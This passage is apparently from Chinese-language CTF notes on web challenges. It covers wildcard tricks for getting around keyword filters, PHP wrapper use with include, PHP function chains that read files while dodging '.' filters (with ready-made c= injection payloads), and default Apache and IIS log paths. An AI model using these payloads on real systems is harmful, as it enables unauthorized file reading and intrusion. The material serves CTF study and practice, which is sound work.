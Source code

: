 ```
(9)vim:一种编辑器，这个也可以查看
(10)sort:可以查看
(11)uniq:可以查看
(12)file -f:报错出具体内容
grep grep test *file   #在当前目录中，查找后缀有 file 字样的文件中包含 test 字符串的文件，并打印出该字符串的行
```
#### linux通配符绕过
```
适用条件:过滤了flag，没有过滤 ? *
在linux系统中 有一些通配符

匹配任何字符串／文本，包括空字符串；*代表任意字符（0个或多个） ls file *
? 匹配任何一个字符（不在括号内时）?代表任意1个字符 ls file 0
[abcd] 匹配abcd中任何一个字符
[a-z] 表示范围a到z，表示范围的意思 []匹配中括号中任意一个字符 ls file 0
```

#### include 和伪协议的配合
```
因为include包含php文件不会在页面显示出来
所以可以配合伪协议将flag.php打印,而且新的参数不会受过滤影响
```

#### php相关函数
```
php函数操作：
scandir(’.’):扫描当前目录
localeconv() 函数返回一数组。而数组第一项就是`.`(用来绕过.过滤)
pos(),current():返回数组第一个值

数组操作函数：
end():数组指针指向最后一位
next(): 数组指针指向下一位
array_reverse(): 将数组颠倒
array_rand(): 随机返回数组的键名
array_flip()：交换数组的键和值

读取文件函数
file_get_content() :因为et被ban，所以不能使用
readfile()
highlight_file()
show_source()

c=print_r(scandir(pos(localeconv())));
查看当前目录所有文件

c=show_source(next(array_reverse(scandir(pos(localeconv())))));
读取当前目录倒数第二个文件
```
#### 日志默认路径
```
 (1) apache+Linux日志默认路径
  /etc/httpd/logs/access_log
或者
  /var/log/httpd/access_log
(2) apache+win2003日志默认路径
  D:\xampp\apache\logs\access.log

 D:\xampp\apache\logs\error.log

(3) IIS6.0+win2003默认日志文件
 C:\WINDOWS\system32\Logfiles
(4) IIS7.0+win2003 默认日志文件
 %SystemDrive%\inetpub\logs\LogFiles
```